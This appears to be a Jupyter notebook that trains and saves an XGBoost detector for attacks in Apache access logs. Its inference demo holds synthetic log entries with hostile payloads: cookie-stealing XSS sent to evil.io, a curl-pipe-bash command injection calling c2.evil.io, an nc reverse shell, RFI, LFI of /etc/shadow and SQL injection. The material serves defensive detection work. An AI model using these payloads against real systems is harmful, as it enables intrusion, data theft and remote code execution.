

✅ Class-wise performance chart rendered.


In [34]:
# ── Class-wise Performance Chart ─────────────────────────────────────────────

report_dict = {}

report_str = classification_report(
    y_test_raw,
    y_pred,
    target_names=CLASS_NAMES,
    output_dict=True,
    zero_division=0
)

metrics_df = pd.DataFrame(report_str).T.loc[
    CLASS_NAMES,
    ["precision", "recall", "f1-score"]
].astype(float)

# Remove class 0 for plotting
metrics_df = metrics_df.iloc[1:]
class_names = CLASS_NAMES[1:]

fig, ax = plt.subplots(figsize=(14, 6))

x = np.arange(len(class_names))
width = 0.25

bars1 = ax.bar(
    x - width,
    metrics_df["precision"],
    width,
    label="Precision",
    color="#3498db",
    edgecolor="white"
)

bars2 = ax.bar(
    x,
    metrics_df["recall"],
    width,
    label="Recall",
    color="#2ecc71",
    edgecolor="white"
)

bars3 = ax.bar(
    x + width,
    metrics_df["f1-score"],
    width,
    label="F1-Score",
    color="#e74c3c",
    edgecolor="white"
)

ax.set_title(
    "Per-Class Precision / Recall / F1 — Test Set",
    fontsize=13,
    fontweight="bold"
)

ax.set_xlabel("Attack Class")
ax.set_ylabel("Score")
ax.set_xticks(x)
ax.set_xticklabels(class_names, rotation=25, ha="right")
ax.set_ylim(0, 1.10)

ax.legend(fontsize=10)

ax.axhline(
    0.90,
    color="gray",
    linestyle="--",
    linewidth=0.8,
    alpha=0.7,
    label="0.90 target"
)

for bar_group in [bars1, bars2, bars3]:
    for bar in bar_group:
        h = bar.get_height()
        ax.text(
            bar.get_x() + bar.get_width() / 2,
            h + 0.01,
            f"{h:.2f}",
            ha="center",
            va="bottom",
            fontsize=7
        )

plt.tight_layout()
plt.savefig(
    r"D:\c4\results\class_performance.png",
    bbox_inches="tight",
    dpi=110
)

plt.show()
print("✅ Class-wise performance chart rendered.")

---
## 🌳 Section 16 — Feature Importance Analysis

XGBoost provides three built-in importance metrics:  
- **weight** — number of times a feature is used to split  
- **gain** — average information gain when the feature is used to split  
- **cover** — average number of samples covered by splits using this feature  

We display all three and highlight the top security signal features.




Top 20 Features by Information Gain:


,Feature,Gain,Gain_pct,Category
0,rfi_score,364.0054,26.5800,🔴 Security
1,xss_score,321.8083,23.5000,🔴 Security
2,sql_score,130.2094,9.5100,🔴 Security
3,traversal_count,74.1370,5.4100,🔴 Security
4,brute_score,60.5981,4.4200,🔴 Security
5,traversal_score,56.9719,4.1600,🔴 Security
6,encoded_char_count,55.6752,4.0700,⚪ Generic
7,special_char_count,47.4528,3.4700,⚪ Generic
8,cmd_score,45.6622,3.3300,🔴 Security
9,lfi_score,38.2311,2.7900,🔴 Security


In [35]:
xgb_model = threat_pipeline.named_steps["xgb"]

importance_types = ["weight", "gain", "cover"]
fig, axes = plt.subplots(1, 3, figsize=(20, 8))
fig.suptitle("XGBoost Feature Importance — Three Metrics", fontsize=14, fontweight="bold")

for ax, imp_type in zip(axes, importance_types):
    scores = xgb_model.get_booster().get_score(importance_type=imp_type)
    # Map f0, f1, ... back to column names
    feat_map = {f"f{i}": name for i, name in enumerate(FEATURE_COLS)}
    named_scores = {feat_map.get(k, k): v for k, v in scores.items()}
    sorted_scores = sorted(named_scores.items(), key=lambda x: x[1], reverse=True)[:20]
    names, vals = zip(*sorted_scores)

    bar_colors = [
        "#e74c3c" if any(s in n for s in ["sql","xss","cmd","lfi","rfi","traversal","brute","threat"])
        else "#3498db" if any(s in n for s in ["ip","requests","unique","density","attack"])
        else "#95a5a6"
        for n in names
    ]
    ax.barh(list(reversed(names)), list(reversed(vals)),
            color=list(reversed(bar_colors)), edgecolor="white")
    ax.set_title(f"Top 20 by {imp_type.capitalize()}", fontweight="bold")
    ax.set_xlabel(f"{imp_type.capitalize()} Score")
    ax.tick_params(axis="y", labelsize=8)

plt.tight_layout()
plt.savefig(r"D:\c4\results\feature_importance.png", bbox_inches="tight", dpi=110)

plt.show()

# Summary table
gain_scores = xgb_model.get_booster().get_score(importance_type="gain")
feat_map = {f"f{i}": name for i, name in enumerate(FEATURE_COLS)}
named_gain = {feat_map.get(k, k): v for k, v in gain_scores.items()}
fi_df = pd.DataFrame(list(named_gain.items()), columns=["Feature", "Gain"])
fi_df = fi_df.sort_values("Gain", ascending=False).reset_index(drop=True)
fi_df["Gain_pct"] = (fi_df["Gain"] / fi_df["Gain"].sum() * 100).round(2)
fi_df["Category"] = fi_df["Feature"].apply(
    lambda f: "🔴 Security" if any(s in f for s in ["sql","xss","cmd","lfi","rfi","traversal","brute","threat"])
    else "🔵 Behavior" if any(s in f for s in ["ip","requests","unique","density","attack"])
    else "⚪ Generic"
)
print("Top 20 Features by Information Gain:")
display(fi_df.head(20))


In [36]:
print('jj')

jj


---
## 💾 Section 17 — Model Saving

The complete `ThreatDetectionPipeline` is serialized with `joblib`.  
The `.pkl` file contains **everything**: cleaning logic, feature engineering,  
encoders, scalers, and the trained XGBoost model — ready for deployment.


In [37]:
# ── Save complete pipeline ────────────────────────────────────────────────────
joblib.dump(threat_pipeline, MODEL_SAVE_PATH, compress=3)
file_size_mb = os.path.getsize(MODEL_SAVE_PATH) / 1024 / 1024

print("✅ ThreatDetectionPipeline saved.")
print(f"   Path       : {MODEL_SAVE_PATH}")
print(f"   Size       : {file_size_mb:.2f} MB")

# ── Save metadata ─────────────────────────────────────────────────────────────
meta = {
    "model_version": "1.0.0",
    "saved_at": datetime.now().isoformat(),
    "feature_cols": FEATURE_COLS,
    "class_names": CLASS_NAMES,
    "num_classes": NUM_CLASSES,
    "test_accuracy": round(acc, 4),
    "test_f1_weighted": round(f1_w, 4),
    "cv_f1_mean": round(np.mean(cv_scores), 4),
    "cv_f1_std": round(np.std(cv_scores), 4),

    "xgb_best_iter":
        int(xgb_model.best_iteration)
        if hasattr(xgb_model, "best_iteration")
        else None,

    "train_rows": len(df_train_raw),
    "val_rows": len(df_val_raw),
    "test_rows": len(df_test_raw),
}
meta_path = MODEL_SAVE_PATH.replace(".pkl", "_metadata.json")
with open(meta_path, "w") as f:
    json.dump(meta, f, indent=2)
print(f"   Metadata   : {meta_path}")

# ── Verify round-trip ─────────────────────────────────────────────────────────
loaded_pipeline = joblib.load(MODEL_SAVE_PATH)
test_pred_loaded = loaded_pipeline.predict(df_test_raw.head(5))
print(f"\n✅ Round-trip verification passed.")
print(f"   Predictions from loaded pipeline: {[CLASS_NAMES[p] for p in test_pred_loaded]}")


✅ ThreatDetectionPipeline saved.
   Path       : ThreatDetectionPipeline.pkl
   Size       : 6.66 MB
   Metadata   : ThreatDetectionPipeline_metadata.json


INFO: [Cleaner] Cleaning complete. Output shape: (5, 10)



✅ Round-trip verification passed.
   Predictions from loaded pipeline: ['benign_suspicious', 'xss', 'rfi', 'benign_suspicious', 'sql_injection']


---
## 🌐 Section 18 — Real-World Inference Demo

Synthetic Apache access log entries are generated — **none exist in the training dataset**.  
The saved pipeline is reloaded from disk and used to predict attack classes.

The demo showcases all 9 attack classes with realistic payloads.


In [38]:
# # ── Synthetic Inference Samples ──────────────────────────────────────────────
# # These are crafted Apache log entries not present in the training data.

# INFERENCE_SAMPLES = [
#     {
#         "attack_type_true" : "normal",
#         "timestamp"        : "2025-02-10 14:23:11",
#         "source_ip"        : "203.0.113.55",
#         "http_method"      : "GET",
#         "url"              : "/products/featured",
#         "query_parameters" : "category=electronics&sort=price&page=2",
#         "status_code"      : 200,
#         "response_size"    : 45230,
#         "referrer"         : "https://google.com/search?q=electronics",
#         "user_agent"       : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36",
#     },
#     {
#         "attack_type_true" : "benign_suspicious",
#         "timestamp"        : "2025-02-10 02:17:44",
#         "source_ip"        : "192.0.2.101",
#         "http_method"      : "GET",
#         "url"              : "/admin",
#         "query_parameters" : "debug=true&test=1",
#         "status_code"      : 403,
#         "response_size"    : 512,
#         "referrer"         : "-",
#         "user_agent"       : "python-requests/2.31.0",
#     },
#     {
#         "attack_type_true" : "sql_injection",
#         "timestamp"        : "2025-02-10 09:05:33",
#         "source_ip"        : "198.51.100.77",
#         "http_method"      : "GET",
#         "url"              : "/users/search",
#         "query_parameters" : "name=' UNION SELECT username,password,NULL FROM accounts--",
#         "status_code"      : 500,
#         "response_size"    : 1024,
#         "referrer"         : "-",
#         "user_agent"       : "sqlmap/1.7.8#stable (https://sqlmap.org)",
#     },
#     {
#         "attack_type_true" : "xss",
#         "timestamp"        : "2025-02-10 11:44:22",
#         "source_ip"        : "198.51.100.22",
#         "http_method"      : "POST",
#         "url"              : "/comments/new",
#         "query_parameters" : "body=<img src=x onerror=fetch('https://evil.io/?c='+document.cookie)>&post_id=41",
#         "status_code"      : 200,
#         "response_size"    : 891,
#         "referrer"         : "https://example.com/post/41",
#         "user_agent"       : "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0",
#     },
#     {
#         "attack_type_true" : "lfi",
#         "timestamp"        : "2025-02-10 08:32:17",
#         "source_ip"        : "203.0.113.88",
#         "http_method"      : "GET",
#         "url"              : "/download",
#         "query_parameters" : "file=../../../../etc/shadow&format=raw",
#         "status_code"      : 403,
#         "response_size"    : 0,
#         "referrer"         : "-",
#         "user_agent"       : "curl/8.1.2",
#     },
#     {
#         "attack_type_true" : "rfi",
#         "timestamp"        : "2025-02-10 16:08:55",
#         "source_ip"        : "192.0.2.200",
#         "http_method"      : "GET",
#         "url"              : "/cms/render",
#         "query_parameters" : "template=http://attacker.io/shell.php%00&lang=en",
#         "status_code"      : 500,
#         "response_size"    : 0,
#         "referrer"         : "-",
#         "user_agent"       : "Wget/1.21.4 (linux-gnu)",
#     },
#     {
#         "attack_type_true" : "directory_traversal",
#         "timestamp"        : "2025-02-10 13:21:09",
#         "source_ip"        : "198.51.100.44",
#         "http_method"      : "GET",
#         "url"              : "/static/images/../../../../etc/nginx/nginx.conf",
#         "query_parameters" : "",
#         "status_code"      : 400,
#         "response_size"    : 0,
#         "referrer"         : "-",
#         "user_agent"       : "Mozilla/5.0 (compatible; Googlebot/2.1)",
#     },
#     {
#         "attack_type_true" : "command_injection",
#         "timestamp"        : "2025-02-10 21:58:01",
#         "source_ip"        : "192.0.2.150",
#         "http_method"      : "POST",
#         "url"              : "/api/v2/ping",
#         "query_parameters" : "host=8.8.8.8;curl${IFS}http://c2.evil.io/pwn.sh|bash&timeout=5",
#         "status_code"      : 200,
#         "response_size"    : 256,
#         "referrer"         : "-",
#         "user_agent"       : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/120.0.0.0",
#     },
#     {
#         "attack_type_true" : "bruteforce",
#         "timestamp"        : "2025-02-10 03:44:10",
#         "source_ip"        : "203.0.113.19",
#         "http_method"      : "POST",
#         "url"              : "/wp-login.php",
#         "query_parameters" : "log=admin&pwd=password123&wp-submit=Log+In",
#         "status_code"      : 401,
#         "response_size"    : 1024,
#         "referrer"         : "https://example.com/wp-login.php",
#         "user_agent"       : "Mozilla/5.0 (compatible; Hydra)",
#     },
# ]


# INFERENCE_SAMPLES = [

#     {
#         "attack_type_true": "normal",
#         "timestamp": "2025-03-14 10:15:42",
#         "source_ip": "145.77.23.91",
#         "http_method": "GET",
#         "url": "/blog/article/125",
#         "query_parameters": "tag=technology&page=1",
#         "status_code": 200,
#         "response_size": 28451,
#         "referrer": "https://bing.com/search?q=technology+blogs",
#         "user_agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 14_2) Safari/605.1.15",
#     },

#     {
#         "attack_type_true": "normal",
#         "timestamp": "2025-03-14 18:07:13",
#         "source_ip": "81.44.192.33",
#         "http_method": "POST",
#         "url": "/account/settings",
#         "query_parameters": "language=en&timezone=UTC",
#         "status_code": 200,
#         "response_size": 3512,
#         "referrer": "https://example.com/profile",
#         "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/124.0",
#     },

#     {
#         "attack_type_true": "sql_injection",
#         "timestamp": "2025-03-14 07:55:01",
#         "source_ip": "91.201.14.77",
#         "http_method": "GET",
#         "url": "/api/users",
#         "query_parameters": "id=5' AND SLEEP(5)--",
#         "status_code": 500,
#         "response_size": 512,
#         "referrer": "-",
#         "user_agent": "sqlmap/1.8.2#stable",
#     },

#     {
#         "attack_type_true": "sql_injection",
#         "timestamp": "2025-03-14 07:56:44",
#         "source_ip": "91.201.14.77",
#         "http_method": "GET",
#         "url": "/search",
#         "query_parameters": "q=admin') OR ('1'='1",
#         "status_code": 500,
#         "response_size": 423,
#         "referrer": "-",
#         "user_agent": "sqlmap/1.8.2#stable",
#     },

#     {
#         "attack_type_true": "xss",
#         "timestamp": "2025-03-14 12:21:33",
#         "source_ip": "172.61.88.17",
#         "http_method": "POST",
#         "url": "/support/ticket",
#         "query_parameters": "message=<svg/onload=alert(document.domain)>",
#         "status_code": 200,
#         "response_size": 1102,
#         "referrer": "https://example.com/help",
#         "user_agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64) Firefox/124.0",
#     },

#     {
#         "attack_type_true": "directory_traversal",
#         "timestamp": "2025-03-14 13:11:52",
#         "source_ip": "44.203.11.18",
#         "http_method": "GET",
#         "url": "/files/..%2f..%2f..%2f..%2fwindows/win.ini",
#         "query_parameters": "",
#         "status_code": 403,
#         "response_size": 0,
#         "referrer": "-",
#         "user_agent": "curl/8.5.0",
#     },

#     {
#         "attack_type_true": "lfi",
#         "timestamp": "2025-03-14 15:39:44",
#         "source_ip": "37.122.90.201",
#         "http_method": "GET",
#         "url": "/viewer",
#         "query_parameters": "page=/proc/self/environ",
#         "status_code": 500,
#         "response_size": 0,
#         "referrer": "-",
#         "user_agent": "python-requests/2.32.0",
#     },

#     {
#         "attack_type_true": "rfi",
#         "timestamp": "2025-03-14 15:41:28",
#         "source_ip": "37.122.90.202",
#         "http_method": "GET",
#         "url": "/index.php",
#         "query_parameters": "module=https://evil-cdn.net/backdoor.txt",
#         "status_code": 500,
#         "response_size": 0,
#         "referrer": "-",
#         "user_agent": "Wget/1.24",
#     },

#     {
#         "attack_type_true": "command_injection",
#         "timestamp": "2025-03-14 22:06:55",
#         "source_ip": "66.91.220.5",
#         "http_method": "POST",
#         "url": "/tools/traceroute",
#         "query_parameters": "host=8.8.8.8&&nc${IFS}-e${IFS}/bin/sh${IFS}10.10.10.5${IFS}4444",
#         "status_code": 500,
#         "response_size": 128,
#         "referrer": "-",
#         "user_agent": "Mozilla/5.0 (Linux; Android 14)",
#     },

#     {
#         "attack_type_true": "bruteforce",
#         "timestamp": "2025-03-14 01:12:20",
#         "source_ip": "104.166.18.200",
#         "http_method": "POST",
#         "url": "/administrator/login",
#         "query_parameters": "username=root&password=toor",
#         "status_code": 401,
#         "response_size": 731,
#         "referrer": "https://example.com/administrator/login",
#         "user_agent": "Hydra",
#     },

# ]


INFERENCE_SAMPLES = [
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:01:10","source_ip":"10.1.1.10","http_method":"GET","url":"/home","query_parameters":"lang=en","status_code":200,"response_size":12034,"referrer":"https://google.com","user_agent":"Mozilla/5.0 Chrome/124"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:02:12","source_ip":"10.1.1.11","http_method":"GET","url":"/products","query_parameters":"page=1","status_code":200,"response_size":14000,"referrer":"-","user_agent":"Mozilla/5.0 Firefox/124"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:03:20","source_ip":"10.1.1.12","http_method":"POST","url":"/login","query_parameters":"remember=1","status_code":200,"response_size":800,"referrer":"https://site.com","user_agent":"Safari/605"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:04:22","source_ip":"10.1.1.13","http_method":"GET","url":"/about","query_parameters":"","status_code":200,"response_size":5000,"referrer":"-","user_agent":"Chrome/123"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:05:30","source_ip":"10.1.1.14","http_method":"GET","url":"/blog","query_parameters":"tag=tech","status_code":200,"response_size":9000,"referrer":"google","user_agent":"Edge/123"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:06:40","source_ip":"10.1.1.15","http_method":"GET","url":"/contact","query_parameters":"","status_code":200,"response_size":3000,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:07:55","source_ip":"10.1.1.16","http_method":"GET","url":"/pricing","query_parameters":"plan=pro","status_code":200,"response_size":7000,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:08:10","source_ip":"10.1.1.17","http_method":"POST","url":"/subscribe","query_parameters":"email=test@mail.com","status_code":200,"response_size":1200,"referrer":"site","user_agent":"Chrome"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:09:33","source_ip":"10.1.1.18","http_method":"GET","url":"/dashboard","query_parameters":"","status_code":200,"response_size":15000,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:10:44","source_ip":"10.1.1.19","http_method":"GET","url":"/help","query_parameters":"topic=faq","status_code":200,"response_size":6000,"referrer":"google","user_agent":"Safari"}
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:00:10","source_ip":"172.16.0.10","http_method":"GET","url":"/search","query_parameters":"q=' or 1=1","status_code":500,"response_size":900,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:01:12","source_ip":"172.16.0.11","http_method":"GET","url":"/users","query_parameters":"id=1'--","status_code":500,"response_size":800,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:02:15","source_ip":"172.16.0.12","http_method":"GET","url":"/login","query_parameters":"user=admin' OR '1'='1","status_code":401,"response_size":700,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:03:18","source_ip":"172.16.0.13","http_method":"GET","url":"/api","query_parameters":"id=1 UNION SELECT 1,2,3","status_code":500,"response_size":1200,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:04:20","source_ip":"172.16.0.14","http_method":"POST","url":"/auth","query_parameters":"password=' OR sleep(5)--","status_code":500,"response_size":900,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:05:25","source_ip":"172.16.0.15","http_method":"GET","url":"/product","query_parameters":"id=1 AND 1=1","status_code":200,"response_size":1100,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:06:30","source_ip":"172.16.0.16","http_method":"GET","url":"/search","query_parameters":"q=%27%20UNION%20SELECT%20NULL--","status_code":500,"response_size":1300,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:07:35","source_ip":"172.16.0.17","http_method":"GET","url":"/api","query_parameters":"id=1; DROP TABLE users","status_code":500,"response_size":1000,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:08:40","source_ip":"172.16.0.18","http_method":"POST","url":"/login","query_parameters":"user=admin'--","status_code":401,"response_size":800,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:09:45","source_ip":"172.16.0.19","http_method":"GET","url":"/users","query_parameters":"id=1 OR SLEEP(10)--","status_code":500,"response_size":1400,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:00:10","source_ip":"192.168.1.10","http_method":"POST","url":"/comment","query_parameters":"msg=<script>alert(1)</script>","status_code":200,"response_size":900,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:01:12","source_ip":"192.168.1.11","http_method":"POST","url":"/post","query_parameters":"text=<img src=x onerror=alert(1)>","status_code":200,"response_size":850,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:02:14","source_ip":"192.168.1.12","http_method":"GET","url":"/search","query_parameters":"q=<svg/onload=alert(1)>","status_code":200,"response_size":800,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:03:16","source_ip":"192.168.1.13","http_method":"POST","url":"/feedback","query_parameters":"msg=javascript:alert(1)","status_code":200,"response_size":700,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:04:18","source_ip":"192.168.1.14","http_method":"POST","url":"/comment","query_parameters":"msg='><script>alert(1)</script>","status_code":200,"response_size":900,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:05:20","source_ip":"192.168.1.15","http_method":"GET","url":"/page","query_parameters":"q=<iframe src=javascript:alert(1)>","status_code":200,"response_size":1000,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:06:22","source_ip":"192.168.1.16","http_method":"POST","url":"/form","query_parameters":"input=<body onload=alert(1)>","status_code":200,"response_size":1100,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:07:24","source_ip":"192.168.1.17","http_method":"GET","url":"/search","query_parameters":"q=<math><mi//xlink:href=javascript:alert(1)>","status_code":200,"response_size":900,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:08:26","source_ip":"192.168.1.18","http_method":"POST","url":"/chat","query_parameters":"msg=<script src=evil.js></script>","status_code":200,"response_size":950,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:09:28","source_ip":"192.168.1.19","http_method":"POST","url":"/comment","query_parameters":"msg=<img src=x onerror=fetch('http://evil.io')>","status_code":200,"response_size":1000,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:00:10","source_ip":"10.0.0.10","http_method":"GET","url":"/file","query_parameters":"path=../../etc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:01:12","source_ip":"10.0.0.11","http_method":"GET","url":"/download","query_parameters":"file=..%2f..%2fwindows/win.ini","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
